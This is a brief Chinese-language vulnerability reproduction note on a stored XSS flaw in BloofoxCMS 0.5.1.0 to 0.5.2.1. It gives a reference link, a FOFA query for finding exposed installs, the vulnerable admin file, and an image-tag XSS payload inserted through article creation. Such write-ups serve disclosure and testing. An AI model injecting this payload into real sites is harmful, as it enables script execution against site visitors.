 # BloofoxCMS 0.5.2.1 存储型XSS

## 漏洞描述

参考链接：

- https://packetstormsecurity.com/files/161195

## 漏洞影响

```
BloofoxCMS 0.5.1.0 -.5.2.1
```

## FOFA

```
app="BloofoxCMS"
```

## 漏洞复现

漏洞文件：

```
/admin/include/inc_content_articles.php
```

登录有效的账号，在添加文章的时候插入Payload发布，每次访问均可触发：

```
<img src=# onerror=alert('xss')>
```

